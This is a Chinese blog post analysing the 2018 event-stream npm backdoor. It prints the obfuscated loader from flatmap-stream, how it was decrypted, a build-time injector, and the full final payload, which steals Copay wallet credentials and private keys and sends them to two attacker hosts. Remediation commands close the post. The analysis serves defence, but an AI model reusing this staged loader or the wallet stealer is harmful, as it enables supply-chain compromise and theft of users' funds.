






# 现实版解密游戏——NPM 软件包 event-stream 恶意篡改事件后门代码分析

## 事件始末

2018年11月21日，名为 @FallingSnow的用户在知名JavaScript应用库`event-stream`的Github issuse中发布了针对植入的恶意代码的疑问[I don't know what to say](https://github.com/dominictarr/event-stream/issues/116)，表示`event-stream`中存在用于窃取用户数字钱包的恶意代码。

`event-stream` 被很多的前端流行框架和库使用，每月有几千万的下载量。在 Vue 的官方脚手架 `vue-cli `和`Node.js`开发者广泛使用的Node.js文件变化监控`nodemon`中也使用了这个依赖。

这个事件在Github issuse中掀起了大规模的讨论，因为攻击者（@right9ctrl）在大概 3 个月前明目张胆的添加了攻击代码，并提交到了 GitHub，随后发布到了 npm。于是 @FallingSnow 在 GitHub 上询问“为什么 @right9ctrl 有这个项目的访问权限呢？”得到的回复是：“ `event-stream`作者已经很久不维护这个包了，@right9ctrl发邮件给他说想维护，于是就把维护权限交给了他。”目前npm已经下架恶意软件包。


## 环境搭建

- Node.js 运行环境
- 问题软件包样本
因为现在npm已经删除了有问题的软件包`flatmap-stream`，我的样本来自项目中的`nodemon`包中

## 篡改代码分析

先看下git commit记录，[event-stream#commite316336](https://github.com/dominictarr/event-stream/commit/e3163361fed01384c986b9b4c18feb1fc42b8285)




可以看到@right9ctrl增加了`flatmap-stream`包的引用。
去样本中`flatmap-stream`包查看源码，可看到如下目录结构。



这里有一点很鸡贼，在`Node.js`中，一般默认文件为`index.js`，然而后门作者在`package.json`中设置真正的入口文件是`index.min.js`，`index.min.js`是压缩代码，难理解，不易察觉。


从命名上看，`index.min.js`是`index.js`的压缩版，内容本应一样。然而在`index.min.js`文件的最后发现比`index.js`多出一些代码：



展开这行压缩外码如下：

```js
!(function() {
  try {
    var r = require,
      t = process;
    function e(r) {
      return Buffer.from(r, "hex").toString();
    }
    var n = r(e("2e2f746573742f64617461")),
      o = t[e(n[3])][e(n[4])];
    if (!o) return;
    var u = r(e(n[2]))[e(n[6])](e(n[5]), o),
      a = u.update(n[0], e(n[8]), e(n[9]));
    a += u.final(e(n[9]));
    var f = new module.constructor();
    (f.paths = module.paths), f[e(n[7])](a, ""), f.exports(n[1]);
  } catch (r) {}
})();
```

这里就看到了后门作者第二个鸡贼点了，找到代码依然看不懂什么意思。由于例子特殊，此分析不使用断点调试，我去用这段代码加上一些注释和输出去剖析它到底干了啥。

先把前面两段翻译一下

```js
function e(r) {
  return Buffer.from(r, "hex").toString();
}

var n = require(e("2e2f746573742f64617461")),
  o = process[e(n[3])][e(n[4])];
console.log(`var n = require(${e("2e2f746573742f64617461")})`,`o = process[${e(n[3])}][${e(n[4])}]`)
```


输出如下：


由此输出我们得知，后门作者在这里引用了包内的`./test/data`这个文件，并且用到了一个环境变量是在Node.js项目`package.json`中的描述字段，此字段会在Node.js程序运行时生成环境变量`npm_package_description`。回头看这个目录中的内容，是一坨加密的数组。


后面的程序内容都是通过这串数组去执行的。继续分析到后面发现无论我怎样log都不输出了，说明后面的代码根本没有走，于是我在代码分支之前把后面的代码按照上面的方式先翻译过来。

```js
console.log(`var u = require(${e(n[2])})[${e(n[6])}](${e(n[5])}`)
console.log(`a = u.update(${n[0]})[${e(n[8])}](${e(n[9])}`)
console.log(`a += u.final(${e(n[9])})`)
console.log(`var f = new module.constructor();`)
console.log(`(f.paths = module.paths), f[${e(n[7])}](a, ""), f.exports(${n[1]})`)

if (!o) return;
var u = require(e(n[2]))[e(n[6])](e(n[5]), o),
  a = u.update(n[0], e(n[8]), e(n[9]));
a += u.final(e(n[9]));
var f = new module.constructor();
(f.paths = module.paths), f[e(n[7])](a, ""), f.exports(n[1]);
```

输出如下：


这样就好理解多了，下面有一个解密操作，解密的密钥是`o`，刚才提到了，`o`是环境变量`npm_package_description`，因此后门作者是打算有针对性的去利用这个后门。只有密钥（npm_package_description）正确才能继续运行下面的密码。

在Github上[I don't know what to say](https://github.com/dominictarr/event-stream/issues/116)这个讨论中，最终@maths22大神下载了所有的npm包描述，穷举了密钥。密钥为`A Secure Bitcoin Wallet`。



@maths22大神还放出了解密源码



直接把`o`设置为正确密钥，去解密加密字符串。

```js
!(function() {
  try {
    // 编码函数，下面频繁调用编码函数去解字符串拼接
    function e(r) {
      return Buffer.from(r, "hex").toString();
    }

    var n = require(e("2e2f746573742f64617461")),
      o = process[e(n[3])][e(n[4])];
    o='A Secure Bitcoin Wallet';
    if (!o) return;
    var u = require(e(n[2]))[e(n[6])](e(n[5]), o),
      a = u.update(n[0], e(n[8]), e(n[9]));
    a += u.final(e(n[9]));
    console.log(`解密字符串为：${a}`)
    var f = new module.constructor();
    (f.paths = module.paths), f[e(n[7])](a, ""), f.exports(n[1]);
  } catch (r) {}
})();
```

输出下面内容：


又发现了一段代码。但是这段代码此时还是字符串，为了让其生效，后门作者`new`了一个`module`构造器，然后编译其中的代码使其成为可执行的`function`。


``` js
var f = new module.constructor();
(f.paths = module.paths), f[e(n[7])](a, ""), f.exports(n[1]);
console.log(`此时f.exports的类型是：${typeof f.exports}`)
```


继续格式化拿到的新代码：

```js
/*@@*/
module.exports = function(e) {
  try {
      if (!/build\:.*\-release/.test(process.argv[2])) return;// 用户使用build或者release等参数时执行下面代码
      var t = process.env.npm_package_description,// 密钥，还是 A Secure Bitcoin Wallet
          r = require("fs"),
          i = "./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js",
          n = r.statSync(i),
          c = r.readFileSync(i, "utf8"),
          o = require("crypto").createDecipher("aes256", t),// 解密出新的代码
          s = o.update(e, "hex", "utf8");
          s = "\n" + (s += o.final("utf8"));
          var a = c.indexOf("\n/*@@*/");
          0 <= a && (c = c.substr(0, a)), r.writeFileSync(i, c + s, "utf8"), r.utimesSync(i, n.atime, n.mtime), process.on("exit", function() {
              try {
                  r.writeFileSync(i, c, "utf8"), r.utimesSync(i, n.atime, n.mtime)// 将恶意代码写入到./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js中
              } catch (e) {}
          })
  } catch (e) {}
};
```

这里看到了后门作者第三个鸡贼点：再解密一次。不过思路一模一样了，而且这次代码没有那么晦涩难懂了。

此代码大概干了这些事：在开发者执行`build`、`release`等命令时，解密新的代码（最终Payload）将恶意代码写入`cordova`（一个跨平台应用开发框架）库中的一个文件，然后直接将恶意代码带入打包的应用程序中并最终带到用户终端。

下面解开最后的一段代码：


```js
e = 'db67fdbfc39c249c6f3381...';
t = 'A Secure Bitcoin Wallet';
r = require("fs"),
i = "./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js",
n = r.statSync(i),
c = r.readFileSync(i, "utf8"),
o = require("crypto").createDecipher("aes256", t),// 解密出新的代码
s = o.update(e, "hex", "utf8");
s = "\n" + (s += o.final("utf8"));
console.log(`解密后字符串为${s}`);
var a = c.indexOf("\n/*@@*/");
0 <= a && (c = c.substr(0, a)), r.writeFileSync(i, c + s, "utf8"), r.utimesSync(i, n.atime, n.mtime), process.on("exit", function() {
    try {
        r.writeFileSync(i, c, "utf8"), r.utimesSync(i, n.atime, n.mtime)// 将恶意代码写入到./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js中
    } catch (e) {}
})
```

输出结果：


格式化最后一段代码，终于发现了后门作者的意图：

```js
/*@@*/ ! function() {
    function e() {
        try {
            var o = require("http"),
                a = require("crypto"),
                c = "-----BEGIN PUBLIC KEY-----\\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAxoV1GvDc2FUsJnrAqR4C\\nDXUs/peqJu00casTfH442yVFkMwV59egxxpTPQ1YJxnQEIhiGte6KrzDYCrdeBfj\\nBOEFEze8aeGn9FOxUeXYWNeiASyS6Q77NSQVk1LW+/BiGud7b77Fwfq372fUuEIk\\n2P/pUHRoXkBymLWF1nf0L7RIE7ZLhoEBi2dEIP05qGf6BJLHPNbPZkG4grTDv762\\nPDBMwQsCKQcpKDXw/6c8gl5e2XM7wXhVhI2ppfoj36oCqpQrkuFIOL2SAaIewDZz\\nLlapGCf2c2QdrQiRkY8LiUYKdsV2XsfHPb327Pv3Q246yULww00uOMl/cJ/x76To\\n2wIDAQAB\\n-----END PUBLIC KEY-----";

            // 发送http请求，参数为：主机地址，路径，数据
            function i(e, t, n) {
                e = Buffer.from(e, "hex").toString();
                var r = o.request({
                    hostname: e,
                    port: 8080,
                    method: "POST",
                    path: "/" + t,
                    headers: {
                        "Content-Length": n.length,
                        "Content-Type": "text/html"
                    }
                }, function() {});
                r.on("error", function(e) {}), r.write(n), r.end()
            }

            // 加密数据并发送到两个主机
            function r(e, t) {
                for (var n = "", r = 0; r < t.length; r += 200) {
                    var o = t.substr(r, 200);
                    n += a.publicEncrypt(c, Buffer.from(o, "utf8")).toString("hex") + "+"
                }
                i("636f7061796170692e686f7374", e, n), i("3131312e39302e3135312e313334", e, n) // copayapi.host,111.90.151.134
            }

            // 获取文件
            function l(t, n) {
                if (window.cordova) try {
                    var e = cordova.file.dataDirectory;
                    resolveLocalFileSystemURL(e, function(e) {
                        e.getFile(t, {
                            create: !1
                        }, function(e) {
                            e.file(function(e) {
                                var t = new FileReader;
                                t.onloadend = function() {
                                    return n(JSON.parse(t.result))
                                }, t.onerror = function(e) {
                                    t.abort()
                                }, t.readAsText(e)
                            })
                        })
                    })
                } catch (e) {} else {
                    try {
                        var r = localStorage.getItem(t);
                        if (r) return n(JSON.parse(r))
                    } catch (e) {}
                    try {
                        chrome.storage.local.get(t, function(e) {
                            if (e) return n(JSON.parse(e[t]))
                        })
                    } catch (e) {}
                }
            }
            // 获取用户账号的详细信息并发送 账号信息发送到 http://copayapi.host:8080/c http://111.90.151.134:8080/c
            global.CSSMap = {}, l("profile", function(e) {
                for (var t in e.credentials) {
                    var n = e.credentials[t];
                    "livenet" == n.network && l("balanceCache-" + n.walletId, function(e) {
                        var t = this;
                        t.balance = parseFloat(e.balance.split(" ")[0]), "btc" == t.coin && t.balance < 100 || "bch" == t.coin && t.balance < 1e3 || (global.CSSMap[t.xPubKey] = !0, r("c", JSON.stringify(t)))
                    }.bind(n))
                }
            });
            // 重写bitcore-wallet-client/lib/credentials.js中的getKeysFunc函数，发送用户虚拟钱包私钥，私钥信息发送到 http://copayapi.host:8080/p http://111.90.151.134:8080/p
            var e = require("bitcore-wallet-client/lib/credentials.js");
            e.prototype.getKeysFunc = e.prototype.getKeys, e.prototype.getKeys = function(e) {
                var t = this.getKeysFunc(e);
                try {
                    global.CSSMap && global.CSSMap[this.xPubKey] && (delete global.CSSMap[this.xPubKey], r("p", e + "\\t" + this.xPubKey))
                } catch (e) {}
                return t
            }
        } catch (e) {}
    }
    window.cordova ? document.addEventListener("deviceready", e) : e()
}();
```

通过这段代码可以看出,后门作者获取了一个数字货币钱包APP的用户账号信息和私钥，并分别发送到两个主机名。用户账号信息发送到`http://copayapi.host:8080/c`和`http://111.90.151.134:8080/c`然后通过原型重写了`bitcore-wallet-client/lib/credentials.js`中的`getKeysFunc`方法，只要在APP运行时调用到了`getKeysFunc`方法就会将私钥发送到`http://copayapi.host:8080/p` `http://111.90.151.134:8080/p`。

## 事件影响

虽然被写入恶意代码的`event-stream`包下载量千万，但后门作者明显是针对[bitpay/copay](https://github.com/bitpay/copay)这个项目，只想窃取虚拟货币。

对于开发者，如果使用了Vue、nodemon等软件包基本不受影响。当然该处理还是要处理的。如果使用了`copay-dash`这个npm包请尽快删除恶意代码并重新打包发布新版APP。

对于虚拟钱包APP用户，近期尽量不要进行虚拟货币交易等待APP升级修复。

## 解决方案

- 查看项目中是否包含`flatmap-stream`恶意npm包

```plain
npm ls event-stream flatmap-stream
...
flatmap-stream@0.1.1
...
```

- 降级软件包

```plain
npm install event-stream@3.3.4
```

## 参考


1.  [I don't know what to say](https://github.com/dominictarr/event-stream/issues/116)


